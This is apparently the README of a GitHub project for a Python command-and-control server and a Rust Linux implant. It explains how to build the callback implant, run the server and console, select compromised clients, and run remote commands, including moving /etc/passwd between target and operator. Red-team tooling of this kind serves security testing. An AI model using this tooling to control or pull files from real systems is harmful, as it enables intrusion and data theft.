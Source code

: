 # Revenant-C2
C2 framework written in python3 and a linux implant written in Rust

# Installation
## Python Packages
`pip3 install rich cmd2`

## Make sure you have rust installed to compile the implant
`curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh`

## Compile Ghost Implant
`cd Ghost-Implant && cargo build`
### By default it calls back to 127.0.0.1:4444 you can change this in the code, I will automate this eventually...
### Later on I will be adding features to build the implant from the c2 but for now its manual...
If you are interested in cross compiling check out this [cross compiler](https://github.com/messense/rust-musl-cross) for rust

# Running the C2
`python3 c2.py --ip 127.0.0.1 --port 4444`
### the ip flag is what interface the c2 will be listening on and the port is what port the implant will be calling back to, by default the implant calls back to 4444 and the "control port" that the console connects to is 10000
# Running the Console
`python3 console.py`
### This will drop you into a python3 cmd2 console  with this prompt:
`(Disconnected):`
### This is telling us that we are currently not connected a C2
### Connect to a C2 using this command (port defaults to 10000)
`(Disconnected): connect --ip 127.0.0.1`
### If connection is successful the prompt should change
`(Connected):`
### At this point you are waiting for implant connections to the C2, you will get a notification when there is a new connection
`New Client: 1`
### To see what clients are currently connected run:
`get_clients`
### A table will pop up with clients and their respective ID's
### To start interacting with a client you have to select it:
`select 1`
### Your prompt will change to resemble the hostname of the selected target
`(ubuntu): `
### Now you can run commands to interact with the implant, right now there is only a few but I will be adding more
`(ubuntu): ps`\
`(ubuntu): exec ls -l /tmp`\
`(ubuntu): upload --source /etc/passwd --destination /tmp/passwd`\
`(ubuntu): download --source /etc/passwd --destination /tmp/passwd`\
** There is some random commands that I've been using for testing, I will clean them up in the future **

